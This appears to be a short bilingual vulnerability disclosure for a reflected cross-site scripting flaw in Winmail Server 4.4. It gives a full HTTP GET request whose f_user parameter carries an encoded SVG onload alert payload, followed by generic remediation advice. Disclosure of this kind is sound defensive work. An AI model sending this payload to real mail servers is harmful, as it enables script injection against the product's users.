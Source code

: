# XSS vulnerability in Winmail Server email system

### 企业官网(Enterprise official website)：

https://www.winmail.cn/

### 危害描述(Vulnerability description)：

**XSS vulnerabilities** allow attackers to inject malicious scripts into web pages, stealing sensitive data, manipulating content, or performing unauthorized actions.

### 漏洞细节(Vulnerability details)：
#### version:   Winmail Server 4.4
```
GET /?a=ht0d4&api_key=qkg85&begindate=qpol4&email=le159&f_autologin=ehai9&f_pass=py932&f_user=%22%3E%3Csvg%20onload=alert(1)%3E//&from=d6330&id=oejy4&keyword=hdpj0&l=cbms4&q=w5ac3&sLocation=u31d3&type=pnga8&url=u3f55&year=ti6w0 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip

```

![](Winmail-Server.png)

### 修复建议(Repair suggestion)：

**Remediation suggestions** include strict input validation and output encoding, using Content Security Policy (CSP) to restrict script sources, and leveraging built-in security features of modern frameworks.

